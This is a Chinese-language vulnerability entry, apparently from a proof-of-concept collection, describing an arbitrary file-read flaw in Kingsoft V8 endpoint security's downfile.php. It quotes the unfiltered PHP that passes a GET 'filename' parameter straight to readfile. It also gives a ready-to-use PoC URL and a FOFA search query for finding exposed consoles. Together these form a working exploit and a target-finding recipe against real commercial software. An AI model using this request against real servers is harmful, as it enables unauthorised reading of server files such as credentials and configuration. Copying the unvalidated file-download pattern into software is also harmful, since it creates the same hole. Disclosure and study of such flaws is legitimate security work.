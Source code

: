 # 金山 V8 终端安全系统 downfile.php 任意文件读取漏洞

## 漏洞描述

金山 V8 终端安全系统 存在任意文件读取漏洞，攻击者可以通过漏洞下载服务器任意文件

## 漏洞影响

<a-checkbox checked>金山 V8 终端安全系统</a-checkbox></br>

## FOFA

<a-checkbox checked>title="在线安装-V8+终端安全系统Web控制台"</a-checkbox></br>

## 漏洞复现

存在漏洞的文件 **/Console/htmltopdf/downfile.php**

```php
<?php	
			$filename= $_GET["filename"];
            
			$filename=iconv("UTF-8","GBK//IGNORE", $filename);

   			header("Cache-Control: public"); 
			header("Content-Description: File Transfer"); 
			header('Content-disposition: attachment; filename='.$filename); //文件名   
			header("Content-Type: application/zip"); //zip格式的   
			header("Content-Transfer-Encoding: binary"); //告诉浏览器，这是二进制文件    
			header('Content-Length: '. filesize($filename)); //告诉浏览器，文件大小   
			@readfile($filename);
			?>
```

文件中没有任何的过滤 通过filename参数即可下载任意文件，POC为

```plain
/htmltopdf/downfile.php?filename=downfile.php
```

![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313111120246.png)



## 